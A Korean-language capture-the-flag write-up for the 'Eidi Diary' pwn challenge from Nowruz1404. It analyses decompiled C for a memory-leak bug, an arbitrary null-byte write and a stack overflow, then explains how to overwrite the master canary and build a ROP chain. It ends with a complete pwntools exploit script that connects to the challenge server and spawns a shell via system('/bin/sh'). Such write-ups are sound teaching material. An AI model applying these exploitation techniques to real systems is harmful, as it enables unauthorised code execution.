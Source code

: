 # Nowruz1404 writeup(pwn)

# Eidi Diary

### 보호 기법

![image.png](image/image.png)

### 코드 분석

```c
unsigned __int64 addEidi()
{
  unsigned __int16 v0; // ax
  __int64 v2; // [rsp+8h] [rbp-A8h] BYREF
  __int64 v3; // [rsp+10h] [rbp-A0h] BYREF
  char *v4; // [rsp+18h] [rbp-98h]
  char buf[136]; // [rsp+20h] [rbp-90h] BYREF
  unsigned __int64 v6; // [rsp+A8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  printf("Enter the length of the giver's name: ");
  __isoc99_scanf("%lu", &v2);
  getchar();
  printf("Enter the name of the giver: ");
  v0 = 256;
  if ( (unsigned __int16)v2 <= 0x100u )
    v0 = v2;
  read(0, buf, v0);
  buf[v2] = 0;
  v4 = strdup(buf);
  printf("Enter the amount received: ");
  __isoc99_scanf("%lf", &v3);
  *((_QWORD *)&eidiList + 3 * eidiCount) = v4;
  qword_4050[3 * eidiCount] = v3;
  *((_WORD *)&unk_4048 + 12 * eidiCount++) = strlen(buf);
  puts("Eidi recorded successfully!");
  return v6 - __readfsqword(0x28u);
}
```

Eidi List에 entry를 추가하는 함수이다.

총 3가지의 취약점이 존재한다.

1. 입력받은 문자의 수와는 별개로 `strdup()`을 통해 문자열을 복사하고, buf가 초기화되지 않기 때문에 data leak이 가능하다.
2. 원하는 값을 v2에 입력받은 후 `buf[v2] = 0;` 을 실행하므로, Arbitrary Address Null Byte Overwrite가 가능하다.
3. 입력가능한 문자의 수가 최대 0x100으로, BOF가 발생한다. 하지만, Canary가 존재하기 때문에 이를 우회해야 한다.

```c
int viewEidis()
{
  int result; // eax
  int i; // [rsp+Ch] [rbp-4h]

  if ( !eidiCount )
    return puts("No Eidis recorded yet.");
  puts("List of Eidis Received:\n");
  for ( i = 0; ; ++i )
  {
    result = eidiCount;
    if ( i >= eidiCount )
      break;
    printf("%d. Amount: %.2lf From: ", (unsigned int)(i + 1), *(double *)&qword_4050[3 * i]);
    write(1, *((const void **)&eidiList + 3 * i), *((unsigned __int16 *)&unk_4048 + 12 * i));
  }
  return result;
}
```

저장된 Eidi List를 출력해 주는 함수이다.

### stack leak, libc leak

먼저 buf에 존재하는 메모리 값을 살펴보면 다음과 같다.

![image.png](image/image%201.png)

`buf + 0x10` 위치에 스택 주소가 존재하고, `buf + 0x18` 위치에 libc 주소가 존재한다.

1번 취약점에 의해 v2의 값을 임의의 큰 값으로 설정하고, 0x10바이트 만큼을 입력하면 stack 주소값이, 0x18바이트 만큼을 입력하면 libc 주소값이 `strdup()`을 통해 복사가 된다. 그 후 `viewEidis()` 함수를 호출하게 되면, stack 과 libc leak이 가능하다.

### Master Canary overwrite

로컬 환경에서 fs_base 주소를 확인해 보면, `libc base - 0x3000 + 0x740` 에 위치한 것을 확인 가능하다.

![image.png](image/image%202.png)

원격 서버의 경우, 1337을 input으로 넣으면 memory map을 확인할 수 있는데, 로컬에서와 동일하게 `libc base - 0x3000` 위치에 페이지가 할당되어 있는 것을 확인할 수 있고, 마찬가지로 fs_base가 존재할 것이라고 가정하였다. (사진은 못 구함)

```c
if ( v4 == 1337 )
{
  stream = fopen("/proc/self/maps", "r");
  while ( fgets(s, 256, stream) )
    printf("%s", s);
  fclose(stream);
  exit(0);
}
```

leak한 stack 주소와 libc 주소를 통해 offset을 계산한 후, 2번 취약점을 이용하면 Master Canary를 0으로 덮을 수 있다.

이 때, Master Canary를 1바이트씩 0으로 덮는 것이기 때문에 3번 취약점을 이용하여 Stack Canary의 값을 1바이트씩 늘려가며 0으로 덮어주어야 한다.

참고로 `addEidi()` 함수의 아래 부분을 보면,

```c
v0 = 256;
  if ( (unsigned __int16)v2 <= 0x100u )
    v0 = v2;
  read(0, buf, v0);
```

이 부분이 존재하는데, v2값이 0x88 이하로 설정되게 되면 BOF가 발생하지 않아 Stack Canary를 덮지 못해 확률은 낮지만 함수가 실패하는 경우가 생길 수 있다.

### ROP

Master Canary를 0으로 다 덮고 나면, leak한 libc 주소와 BOF를 사용하여 ROP를 진행하면 된다.

### 익스플로잇 코드

```python
from pwn import *
import ctypes

# r = process("./chall_patched")
r = remote("164.92.176.247", 4000)

def menu(cmd):
    r.sendlineafter(b"choice: ", str(cmd).encode())
    
def addEidi(length, name, amount):
    menu(1)
    r.sendlineafter(b"name: ", str(length).encode())
    r.sendafter(b"giver: ", name)
    r.sendlineafter(b"received: ", str(amount).encode())

def viewEidis():
    menu(2)

# stack leak
addEidi(0x100, b"A" * 0x10, 0)

# libc leak
addEidi(0x100, b"A" * 0x18, 0)
viewEidis()

r.recvuntil(b"A" * 0x10)
stack_addr = u64(r.recvn(6).ljust(8, b"\x00")) + 0x50 - 0x90
r.success(f"stack addr: {hex(stack_addr)}")

r.recvuntil(b"A" * 0x18)
libc_base = u64(r.recvn(6).ljust(8, b"\x00")) - 0x92ef3
r.success(f"libc base: {hex(libc_base)}")

# calculate Master Canary address
master_canary = libc_base - 0x3000 + 0x740 + 0x28
r.success(f"master canary: {hex(master_canary)}")

# calculate offset
offset = ctypes.c_uint64(master_canary - stack_addr).value
r.success(f"offset: {hex(offset)}")

# Master Canary NULL overwrite
for i in range(1, 8):
    addEidi(offset + i, b"A" * 0x88 + b"\x00" * (i + 1), 0)

# ROP
payload = b"\x00" * 0x98
payload += p64(libc_base + 0x000000000010f75b)      # pop rdi
payload += p64(libc_base + 0x1cb42f)                # /bin/sh
payload += p64(libc_base + 0x000000000010f75b + 1)  # ret
payload += p64(libc_base + 0x58750)                 # system

addEidi(0x100, payload, 0)

r.interactive()
```